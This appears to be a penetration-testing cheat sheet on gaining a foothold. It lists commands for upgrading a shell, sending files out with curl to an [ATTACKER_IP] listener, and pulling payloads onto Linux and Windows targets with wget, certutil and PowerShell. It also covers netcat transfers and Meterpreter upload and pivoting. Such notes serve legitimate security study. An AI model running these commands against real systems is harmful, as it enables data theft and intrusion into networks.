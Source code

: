 ```yaml
---
title: 4 – Foothold
summary: Foothold step – a note for confirming foothold and adding a little persistence.
description: Foothold step – a note for confirming foothold and adding a little persistence.
---
```


# Spawn Better Shell

---

### PYTHON


 > 
 > **<font color=red>python3 -c 'import pty; pty.spawn("/bin/bash")';export TERM=xterm</font>**</br>
 > `Ctrl + Z`</br>
 > **<font color=red>stty raw -echo; fg</font>**</br>
 > Spawn a better shell (tab, history, ...).

# Extract File from Target

---

### CURL


 > 
 > **<font color=red>curl</font> \[ATTACKER_IP\]<font color=red>:</font>\[ATTACKER_PORT\]<font color=red> -F 'data=@</font>fmyFile<font color=red>'</font>**</br>
 > Send myFile to an netcaat listener.

# Upload File on Target

---

### NETCAT


 > 
 > **<font color=red>nc -l -p </font>\[TARGET_PORT\] <font color=red>\></font> newFile**</br>
 > Run on Target.

 > 
 > **<font color=red>nc</font> \[TARGET_IP\] \[TARGET PORT\] <font color=red>\<</font> myFile**</br>
 > Run on Attacker machine. Send a file on the target.

---

### PYTHON


 > 
 > **<font color=red>python3 -m http.server</font> \[ATTACKER_PORT\]**</br>
 > Run on attacker machine (at the file location).

 > 
 > **<font color=red>wget http://</font>\[ATTACKER_IP\]<font color=red>:</font>\[ATTACKER_PORT\]<font color=red>/myFile</font>**</br>
 > Get the file on a Linux target machine.

 > 
 > **<font color=red>certutil.exe -urlcache -f http://</font>\[ATTACKER_IP\]:\[ATTACKER_PORT\]<font color=red>/</font>myFile myFile**</br>
 > or</br>
 > **<font color=red>powershell -c wget "http://</font>\[ATTACKER_IP\]<font color=red>:</font>\[ATTACKER_PORT\]<font color=red>/</font>myFile<font color=red>" -outfile "</font>myFile<font color=red>"</font>**</br>
 > or</br>
 > **<font color=red>powershell -c "(new-object System.Net.WebClient).Downloadfile('http://</font>\[ATTACKER_IP\]<font color=red>:</font>\[ATTACKER_PORT\]<font color=red>/</font>myFile<font color=red>', '</font>myFile<font color=red>')"</font>**</br>
 > Get the file on a Windows target machine.

---

### MIMIKATZ


 > 
 > **<font color=red>upload</font> myFile**</br>
 > Transfer file to target.

---

### METERPRETER


 > 
 > **<font color=red>upload</font>**</br>
 > Upload a file or directory.

 > 
 > **<font color=red>download</font>**</br>
 > Download a file or directory.

# Pivoting

---

### METERPRETER

When we have a meterpreter shell on a machine that has access to another network, we can use it to gain access to the 2nd network.

 > 
 > **<font color=red>run autoroute -s</font> \[REMOTE_NETWORK\]<font color=red>/24</font>**</br>
 > Create a route via the host that we had access to.

 > 
 > **<font color=red>run autoroute -p</font>**</br>
 > Show added routes.
